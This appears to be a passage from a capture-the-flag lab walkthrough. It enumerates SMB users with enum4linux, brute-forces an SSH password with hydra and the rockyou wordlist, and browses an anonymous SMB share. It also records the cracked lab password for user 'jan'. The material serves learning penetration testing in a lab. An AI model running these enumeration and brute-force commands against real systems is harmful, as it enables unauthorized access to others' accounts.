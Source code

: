 ```` console
enum4linux -a {IP-Address} | tee enum4linux.log
````

### Findings
{: .no_toc}

- Found 2 users: kay & jan

## hydra (password guesser (bruteforce))

Use hydra and rockyou wordlist to  get jan's password.

```` console
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://{IP-Address} 
````

### Flags
{: .no_toc}

```console
-l: Username\
-P: wordlist\
(-t: number of parallel tasks)
```

### Findings
{: .no_toc}

Found user:

- login: jan
- password: armando

## SMB

Anonymous access is open, no password required. Lets sniff around a bit.

### Command
{: .no_toc}

```` console

smbclient //{IP-Address}/anonymous

`?` : list available commands
`l` : list 
`get staff.txt {target path}` : transfer file to local host
````

### Findings
{: .no_toc}

- Found "staff.txt" file - says not to upload non-work-related items
